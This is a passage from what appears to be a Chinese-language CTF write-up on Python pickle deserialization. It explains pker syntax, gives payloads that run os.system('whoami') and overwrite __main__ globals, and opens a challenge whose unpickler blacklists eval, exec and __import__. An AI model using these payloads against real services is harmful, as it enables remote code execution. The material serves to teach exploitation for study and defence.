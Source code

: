 ``` python
建立并入栈一个对象(传入的第一个参数为callable，可以执行一个函数),对应操作码o
Eg:OBJ(GLOBAL('os','system'),'ls')
输入:callable,para

xxx(xx,...)
使用参数xx调用函数xxx,对应操作码R

li[0]=321或globals_dic['local_var']='hello'
更新列表或字典的某项的值,对应操作码s

xx.attr=123
对xx对象进行属性设置,对应操作码b

return
出栈,对应操作码0
return xxx # 注意,一次只能返回一个对象或不返回对象（就算用逗号隔开,最后也只返回一个元组）
```
几个小例子:
``` python
s='whoami'
system = GLOBAL('os', 'system')
system(s) # `b'R'`调用
return
```
将此代码保存,文件名为666,使用方法如下:
![](/blog_img/pickle7.png)
``` python
# 全局变量覆盖举例
secret=GLOBAL('__main__', 'secret') 
secret.name='1'
secret.category='2'
```
我们以刚刚上面那道只允许引入\_\_main\_\_模块的变量覆盖为例,看看pker代码.
``` python
student = GLOBAL('__main__','test')
student.name = 'Lu'
student.date = '20200405'
new = INST('__main__', 'Stu','Lu','20200405')
return new
```
可以看到,这样大大减轻了压力,简直是做题神器,当然,这样的构造其实也要建立在对PVM操作码的理解上,所以能够手写还是有很大的必要的.
# CTF实例
## Code-Breaking picklecode
这是P神出的一道题目,其实还考察了其他知识点,但是我们直接来看和反序列化相关的内容.
``` python
import pickle
import base64
import builtins
import io
class RestrictedUnpickler(pickle.Unpickler):
    blacklist = {'eval', 'exec', 'execfile', 'compile', 'open', 'input', '__import__', 'exit'}
    def find_class(self, module, name):
        if module == "builtins" and name not in self.blacklist:
            return getattr(builtins, name)

        raise pickle.UnpicklingError("global '%s.%s' is forbidden" %(module, name))

```